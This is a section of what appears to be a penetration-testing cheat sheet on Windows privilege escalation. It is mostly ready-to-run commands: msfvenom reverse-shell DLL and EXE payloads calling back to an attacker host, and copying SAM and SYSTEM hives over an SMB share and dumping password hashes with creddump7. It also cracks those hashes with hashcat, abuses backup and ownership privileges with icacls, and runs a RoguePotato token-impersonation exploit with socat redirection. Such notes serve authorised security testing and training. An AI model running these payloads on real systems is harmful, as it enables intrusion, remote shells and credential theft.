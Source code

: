 ## DLL hijacking
- Prepare the reverse shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f dll -o shell.dll
```
- [Copy to the target](#copy-files-fromto-the-target) and put instead of the missing DLL.

## Parsing `SAM` and `SYSTEM` backups
- Run SMB server on Kali:
```bash
sudo smbserver.py share .
```
- Copy files from Windows target.
- Download `creddump7` in Kali:
```bash
cp -r ~/pentesting-tools/creddump7 ./creddump7
```
- Extract cached credentials:
```bash
# The output should look something like:
# admin:1004:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
# where a9fdfa038c4b75ebc76dc855dd74f0da is the password hash
python2 ./creddump7/pwdump.py ./SYSTEM ./SAM
```
- Crack the hash _(or you can run `pth-winexe` or `evil-winrm` shell using hash only)_:
```bash
hashcat -m 1000 --force <pass_hash> /usr/share/wordlists/rockyou.txt
```

## Using given privileges
- `SeBackupPrivilege` grants read access to all files regardless of their ACL.
- `SeRestorePrivilege` grants write access to all files regardless of their ACL.
- `SeTakeOwnershipPrivilege` allows to take the ownership of files. Give user full permissions to the file/folder:
```cmd
icacls "<folder_or_file_path>" /q /c /t /grant <username>:F
```

## Token impersonation _(RoguePotato)_
- Works with  `SeImpersonatePrivilege` or/and `SeAssignPrimaryTokenPrivilege` enabled.
- Prepare the exploit and the reverse shell:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=443 -f exe > shell.exe
cp ~/pentesting-tools/roguepotato/RoguePotato.exe ./roguepotato.exe
```
- [Copy to the target](#copy-files-fromto-the-target)
- Run socat port redirection on Kali _(choose another port if 9999 is in use on the target)_:
```bash
sudo socat tcp-listen:135,reuseaddr,fork tcp:<target_ip>:9999
```
- Run exploit:
```cmd
.\roguepotato.exe -r <my_ip> -l 9999 -e .\shell.exe
```
